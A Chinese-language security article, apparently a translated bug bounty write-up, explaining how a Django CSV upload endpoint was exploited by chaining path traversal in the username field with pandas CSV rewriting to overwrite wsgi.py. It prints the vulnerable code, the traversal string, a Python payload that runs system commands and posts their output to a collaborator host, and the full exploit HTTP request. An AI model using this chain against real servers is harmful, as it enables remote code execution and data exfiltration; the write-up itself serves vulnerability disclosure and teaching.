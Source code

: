 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247531505&idx=1&sn=ef6e5a16657ad393b2f33a8fd5a20296

#  如何在 Django 应用程序中链接目录遍历和 CSV 解析器滥用以进行 RCE  
 Ots安全   2025-07-01 13:14  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
在测试一个 Web 应用程序（作为漏洞赏金计划的一部分）时，我发现了一个严重的 RCE 漏洞，该漏洞利用了目录遍历和巧妙的 CSV 解析滥用。该漏洞利用链结合了目录遍历和巧妙地滥用应用程序使用pandasCSV 解析器的方式，最终允许我覆盖wsgi.py文件并在服务器端执行任意代码。  
  
应用程序行为  
  
存在漏洞的端点允许用户上传 CSV 文件，使用 处理它们pandas，并将结果保存到磁盘。目标函数如下所示：  
  

```
username = request.data.get(&#34;username&#34;)
        upload_file = request.FILES.get(&#34;csv_file&#34;)
        temp_path = f&#34;/tmp/{upload_file.name}&#34;
        with open(temp_path, &#34;wb&#34;) as out_file:
            for chunk in upload_file.chunks():
                out_file.write(chunk)

        # Parse uploaded CSV
        df = pandas.read_csv(temp_path)

        # Determine output path
        base_dir = Path(__file__).resolve().parent.parent
        save_dir = os.path.join(base_dir, &#34;data_store&#34;, username)
        os.makedirs(save_dir, exist_ok=True)

        final_path = os.path.join(save_dir, upload_file.name)
        if os.path.exists(final_path):
            os.remove(final_path)
        df.to_csv(final_path, index=False, encoding=&#34;utf-8&#34;)
        return Response({&#34;status&#34;: &#34;success&#34;}, status=200)
    except Exception ase:
        return Response({&#34;error&#34;: str(e)}, status=500)
```

  
  
这里有两个关键的观察结果：  
- 该username字段直接用于文件系统路径，无需清理。  
  
- 往返发生在保存文件之前pandas.read_csv()。df.to_csv()  
  
这种设置使得制作劫持文件写入位置并在系统上执行代码的有效载荷成为可能。  
  
从路径遍历到文件覆盖  
  
该username字段是受信任的，并用于构建类似 的路径data_store/<username>/file.csv。我只需提交如下值：  
  

```
../../../../../../app/backend/backend/
```

  
  
结果，应用程序将我上传的文件写入：  
  

```
/app/backend/backend/file.csv
```

  
  
通过 CSV 构建有效的 Payload  
  
难点在于如何将代码导入wsgi.py而不引发语法错误。应用会用 解析文件pandas.read_csv()，然后用 重新序列化to_csv()。这意味着我上传的文件在导入之前会被重写wsgi.py。  
  
以下是具体pandas.to_csv()操作：  
- 默认写入标题。  
  
- 用逗号填充行以匹配最大列数。  
  
- 将每个单元格值写为字符串，并可能引用它。  
  
所以我需要我的有效载荷：  
1. 避免在 CSV 解析过程中出现混乱。  
  
1. 添加额外的逗号后仍然是有效的 Python。  
  
诀窍是使用 把我的恶意代码行放在注释中#。这并不能对 Pandas 隐藏它——它会像解析其他行一样解析它——但可以确保to_csv()在文件运行时，Python 会忽略由 添加的任何尾随垃圾代码。Python 会忽略#一行中 a 之后的所有内容，因此即使 a 后面pandas.to_csv()添加了多余的逗号或空格，它们也会被视为注释的一部分并被解释器丢弃。  
  
以下是嵌入在看似无害的 CSV 中的实际有效载荷行：  
  

```
# VALID CSV DATA
import os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,
```

  
  
经过pandas的处理之后，在Python看来它仍然像是一行注释，但里面却包含足够的真实逻辑来实现代码执行和重新分配application，满足了Django的期望。  
  
选择正确的代码执行目标  
  
在这个阶段，文件覆盖正在起作用——但要将其升级到 RCE，我需要找到一个应用程序在修改后会自动加载或执行的文件，因为我无法直接手动调用被覆盖的文件。这意味着我需要找到一个 Django 会在访问时隐式重新导入或重新运行的服务器端脚本。于是，我找到了wsgi.py……  
  
为什么是 wsgi.py？  
  
根据WSGI 规范，该wsgi.py文件用于公开一个名为的可调用函数application，作为 Web 服务器与 Python 应用交互的入口点。在 Django 中，通常使用以下方式完成此操作：  
  

```
from django.core.wsgi import get_wsgi_application
application = get_wsgi_application()
```

  
  
在测试过程中，一条冗长的错误消息泄露了项目的文件结构。回溯中包含如下路径：  
  

```
/app/backend/backend/
```

  
  
这种嵌套布局正是使用 - 创建 Django 应用程序时所获得的，django-admin startproject backend其中外层backend/是项目根，内层包含设置wsgi.py、和其他核心文件。  
  
这简直就是wsgi.py完美的目标。我无法运行任意文件，只能覆盖它们——所以我需要一些服务器可以自行执行的代码。Django 的开发服务器会监视wsgi.py更改，并在修改时自动重新加载。这意味着只需触碰文件即可触发执行。通过将我的有效载荷放在 Python 注释中，并以一行空application = get_wsgi_application()行结尾，我保留了 Django 预期的结构，同时实现了远程代码执行。  
  
最终漏洞利用请求  
  
以下是用于实现覆盖的修剪后的 HTTP 请求：  
  

```
POST/api/endpoint HTTP/1.1
Host: target.url
Content-Type: multipart/form-data; boundary=---------------------------boundary
Cookie: session=...

-----------------------------boundary
Content-Disposition: form-data; name=&#34;fleet_csv&#34;; filename=&#34;wsgi.py&#34;
Content-Type: text/csv

# VALID CSV DATA
import os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,

-----------------------------boundary
Content-Disposition: form-data; name=&#34;report_date&#34;

2025-01-01
-----------------------------boundary
Content-Disposition: form-data; name=&#34;username&#34;

../../../../../../app/backend/backend/
-----------------------------boundary--
```

  
  
响应确认成功：  
  

```
{&#34;status&#34;: &#34;success&#34;}
```

  
  
几秒钟后，我的服务器收到了带有命令输出的回调。  
  
结论  
  
此次漏洞利用的可能原因如下：  
- 文件系统路径中用户输入的使用未经净化。  
  
- 使用不安全的文件解析和重写pandas。  
  
- Django 在调试模式下的自动重新加载行为。  
  
通过组合这些行为，我能够从基本的文件上传到服务器上的完整 RCE。这里真正的教训是，即使是像 CSV 解析这样看似无害的操作，在错误的环境中也可能变得危险——尤其是在与文件系统访问和自动执行的服务器文件相结合时。  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
